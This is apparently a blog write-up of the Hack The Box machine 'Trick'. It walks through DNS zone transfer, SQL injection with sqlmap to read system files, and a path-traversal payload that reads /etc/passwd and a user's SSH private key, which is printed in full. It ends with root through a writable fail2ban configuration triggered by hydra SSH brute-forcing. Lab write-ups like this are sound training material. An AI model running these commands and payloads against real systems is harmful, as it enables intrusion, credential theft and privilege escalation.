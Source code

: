 ```yaml
---
layout: post
title: "Trick"
date: 2024-12-28
categories: hackthebox
---
```



as always starting with nmap
`sudo nmap -sC -sV -T4 -oN nmap_trick -p- 10.10.11.166`
![[Pasted image 20240619124022.png]]


we got 4 open ports , the 80 hosting a static web page without any interesting functionalities , we can't really do anything with ==SMTP== other than enumerating users .
let's enumerate ==DNS== 

using ==nslookup== we got a domain
![[Pasted image 20240619124718.png]]

I will add it to the ==/etc/hosts== and use it to get more infos from the ==DNS==
using DNS zone transfer we got a new domain 
`dig axfr trick.htb  @10.10.11.166`
![[Pasted image 20240619125242.png]]

looks like a CMS , quick google show us that there's potential ==sqli==
![[Pasted image 20240619125707.png]]

https://www.exploit-db.com/exploits/50802 , the public exploit didn't work , I will use ==sqlmap==

![[Pasted image 20240619130050.png]]

==sqli== confirmed
`sqlmap -r sqltest.txt --dump`
![[Pasted image 20240619130144.png]]

the informations we got from the sqli until now , are not helpful , I tried to get shell but that didn't work , so let's try to read files
`sqlmap -r sqltest.txt --file-read "/etc/passwd"`
![[Pasted image 20240619130532.png]]
we can read files 
![[Pasted image 20240619130623.png]]

try different files but nothing useful , let's try to read the ==nginx== files
` sqlmap -r sqltest.txt --file-read "/etc/nginx/sites-available/default"
`
new vhosts
![[Pasted image 20240619131428.png]]

let's add it to the ==/etc/hosts== 
![[Pasted image 20240619131650.png]]

a potential ==lfi== 
![[Pasted image 20240619131712.png]]

after testing different payloads , we got this 
`...//....//....//....//....//....//....//....//....//etc/passwd
![[Pasted image 20240619131900.png]]

`....//....//....//....//....//....//....//....//....///home/michael/.ssh/id_rsa`

`-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+ 4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/ Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4 1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0 +93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6 IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/ KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0 fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS 3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+ IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ== 
`-----END OPENSSH PRIVATE KEY-----`


PE
`sudo -l`
we can restart the ==fail2ban service== , let's check the configuration files of the service
![[Pasted image 20240619132806.png]]

we have write access over this folder 
![[Pasted image 20240619133027.png]]

 I found this blog and I followed it to get root
 https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7

I will add a malicious code in the ==iptables-multiport.conf== file
![[Pasted image 20240619133547.png]]

and I will restart the ==fail2ban servcie== and bruteforce the ssh to trigger ==the action ban==
` sudo /etc/init.d/fail2ban restart`
![[Pasted image 20240619134109.png]]

` hydra -l idk -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt ssh://10.10.11.166
`
once I will get banned , I will get root 
![[Pasted image 20240619135009.png]]


![[Pasted image 20240619135036.png]]